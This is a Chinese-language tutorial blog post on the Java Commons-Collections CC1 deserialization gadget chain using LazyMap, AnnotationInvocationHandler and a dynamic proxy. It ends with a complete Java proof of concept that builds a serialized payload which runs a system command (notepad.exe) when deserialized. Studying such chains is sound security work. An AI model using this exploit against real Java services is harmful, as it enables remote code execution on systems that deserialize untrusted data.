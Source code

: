 ```yaml
---
title: Commons-Collections篇02-CC1链-2
date: 2025-9-25 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


# 初步构造-寻找transform

还是从`transform`出发，这次找的是`LazyMap`类，`LazyMap`类的get方法中有调用`transform`

给`factory`赋值`invokeTransformer`，并且给`key`赋值`Runtime`，就可以命令执行

![image-20250925150603061](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150603061.png)

`factory`可以通过构造函数来定义，构造函数可以通过`decorate`方法来实现

![image-20250925150625884](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925150625884.png)

- `LazyMap`没有无参构造，有参构造是`protected`类型，所以要用到反射，拿到`LazyMap`类，再去调用下面的方法
- 构造函数有两个参数，一个是`map`类型，一个是`Transformer`类型的`factory`，后面get函数 用到的就是`factory`执行`transform`——`this.factory.transform(key);`
- 所以在使用`decorate方法`进行有参构造时，将`invokeTransformer`赋值给`factory`
- 最后再使用`get`方法传入`Runtime`对象

```java
public class CC2 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"});
        invokerTransformer.transform(runtime);

       Class<LazyMap> c = LazyMap.class;
       HashMap<Object,Object> hashMap = new HashMap<>();
       Map decoratemap =  LazyMap.decorate(hashMap,invokerTransformer);
       Method LazyMapget = c.getDeclaredMethod("get",Object.class);
       LazyMapget.setAccessible(true);
       LazyMapget.invoke(decoratemap,runtime);
    }
}
```

# 第二步-寻找get

上面这条链可以成功命令执行，那么接下来就是要找`get`方法

`AnnotationInvocationHandler`下的`invoke`方法中有`get`方法，并且这个类下还有`readObject()`，可以当做入口类

![image-20250925154533123](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925154533123.png)

`get`方法是通过`MemberValues`进行调用的,`MemberValues`是通过构造函数给其赋值

构造函数没有类型就是default类型，要通过反射来调用

![image-20250925164551320](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925164551320.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);
```

# 通过proxy动态生成代理类

解释一下上面代码最后一行，这也是我当时看代码时的疑惑：

> proxy动态生成代理类时，最后一个参数要求是`InvocationHandler`类型，有人可能会问为什么不直接用`AnnotationInvocationHandler`，`AnnotationInvocationHandler`就是实现了`InvocationHandler`这个接口，为什么还要强转重新创建一个变量，尝试一下就可以知道，会报错，因为不是public，无法从外部访问

![image-20250925172317510](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925172317510.png)

该类实现了`InvocationHandler`这个接口，是一个动态代理类，想调用`invoke()`方法，只需要调用被代理对象的任意方法

这里需要学习一下动态代理

[12、动态代理详解_哔哩哔哩_bilibili](./https://www.bilibili.com/video/BV1mc411h719/?p=11&spm_id_from=333.1007.top_right_bar_window_history.content.click)

使用`proxy`动态生成一个代理类，调用代理类的任意方法时就会调用`invoke`方法

```
Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
```

而且`invoke`方法中还进行了判断，要绕过判断才能走到`get`方法，不能用`equals\toString\hashCode\annotationType`方法

![image-20250925173222757](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173222757.png)

我们在CC链1中用到的`ReadObject`方法，其中的`memberValues`调用的`entrySet`方法也可以绕过上面的判断，只需要让`memberValues`成为动态代理类就可以了

还是和上面一样，通过反射给`memberValues`赋值

![image-20250925173454514](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925173454514.png)

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);
```

最终流程就是：

反序列化时调用`readObject`，然后执行其中的`MemberValues.entryset`，`MemberValues`又是我们动态定义的代理类，就会执行`invoke`方法去执行其中的`get`方法，执行get方法时我们又将`MemberValues`赋值为`LazyMap`通过`decorate`方法进行实例化过的`decorateMap`，最终执行的就是`LazyMap`的`get`方法，`LazyMap`的`get`方法下又执行了`factory.transform`，`factory`我们已经通过`decorate`方法来调用构造函数赋值为`InvokerTransformer`,最终就会执行`InvokerTransformer.transform`,该方法又可以任意命令执行

# 调用链

![image-20250925175604377](./Commons-Collections%E7%AF%8702-CC1%E9%93%BE-2/image-20250925175604377.png)

# 完整代码

```java
package org.example;

import com.sun.net.httpserver.Filter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC2 {
    public static void main(String[] args) throws Exception{
       Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
             new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
             new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
             new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
       };
     ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
     HashMap<Object, Object> hashMap = new HashMap<>();
     Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

     Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
     Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
     declaredConstructor.setAccessible(true);
     InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);

     Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
     InvocationHandler membervalues = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);


     serialize(membervalues);
     unserialize("ser.bin");
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }
}

```

